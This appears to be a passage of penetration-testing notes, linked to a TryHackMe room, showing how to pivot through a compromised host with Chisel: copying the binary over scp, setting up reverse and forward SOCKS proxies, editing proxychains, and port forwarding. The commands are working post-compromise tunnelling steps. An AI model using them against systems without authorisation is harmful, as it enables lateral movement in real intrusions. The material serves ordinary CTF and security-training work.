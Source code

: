 > TODO : Add crypted reverse shells see [shells room](https://tryhackme.com/room/introtoshells) step 7

### Chisel

[Chisel](https://github.com/jpillora/chisel) is a tool that can be used to setup a tunneled proxy or port forward through a compromised system. Written in go, it can be compiled for any system.

If you have an ssh access you can use the following command to copy the chisel binary to the compromised server : `scp -i <keyfile> chisel user@target:/tmp/chisel-<username>`

#### Reverse SOCKS5 Proxy

First on your local machine run the following command : `./chisel server -p <listen-port> --socks5--reverse &`

Then run this command on the proxy machine : `./chisel client <local-ip>:<listen-port> R:socks &`

> Note that the port to send the data through will be different that the listener port.

#### Forward SOCKS Proxy

First run `./chisel server -p <listen-port> --socks5` on the proxy machine.

And then `./chisel client <proxy-ip>:<listen-port> <local-port>:socks` in your local machine. Here listen port is the open port on the proxy machine and local-port is the port we will use to send traffic through on our local machine.

As Cheisel use a SOCK5 proxy you need to update the proxychains configuration.
```shell=
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5  127.0.0.1 <local-port>
```

#### Remote port forward

Remote forward is when you connect back from a compromised target to the remote port forward.

First on your local machine run the following command : `./chisel server -p <listen-port> --reverse &`

Then run this command on the compromised server : `./chisel client <local-ip>:<listen-port> R:<local-port>:<target-ip>:<target-port> &`

Here `listen-port` is the port that you started chisel on and `local-port` is the port you wish to open on your local machine to link with the remote port.

Now you should be able the service from `distant-ip:distant-port` on `localhost:local-port`.

#### Local port forward

As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

First run `./chisel server -p <listen-port>` on the compromised server.
